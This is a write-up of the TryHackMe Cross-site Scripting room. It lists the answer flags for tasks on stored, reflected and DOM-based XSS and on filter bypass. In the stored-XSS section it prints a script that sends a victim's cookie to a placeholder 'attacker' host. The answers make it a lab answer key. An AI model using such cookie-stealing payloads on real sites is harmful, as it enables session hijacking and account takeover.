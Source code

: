 # TryHackMe Cross-site Scripting

> Saikat Karmakar | Jul 28 : 2021


---

## Task 3

1. Doing so will reveal the answer to this question.
```
HTML_T4gs
```
2. Create an alert popup box appear on the page with your document cookies.
```
W3LL_D0N3_LVL2
```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```
websites_can_be_easily_defaced_with_xss
```
Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

<script>window.location='http://attacker/?cookie='+document.cookie</script>

This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

4. Take over Jack's account by stealing his cookie, what was his cookie value?
```
s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE
```
5. Post a comment as Jack.
```
c00ki3_stealing_
```

## Task 4


1. Craft a reflected XSS payload that will cause a popup saying "Hello"
```
ThereIsMoreToXSSThanYouThink
```
2. Craft a reflected XSS payload that will cause a popup with your machines IP address.
```
ReflectiveXss4TheWin
```

## Task 5

1. Look at the deployed machines DOM-Based XSS page source code, and figure out a way to exploit it by executing an alert with your cookies.
```
BreakingAnElementsTag
```
2. Create an onhover event on an image tag, that change the background color of the website to red.
```
JavascriptIsAwesome
```

## Task 8

1. Bypass the filter that removes any script tags.
```
3c3cf8d90aaece81710ab9db759352c0
```
2. The word alert is filtered, bypass it.
```
a2e5ef66f5ff584a01d734ef5edaae91
```
3. The word hello is filtered, bypass it.
```
decba45d0eff17c6eedf1629393bee1d
```
4. Filtered in challenge 4 is as follows:
```
2482d2e8939fc85a9363617782270555
```

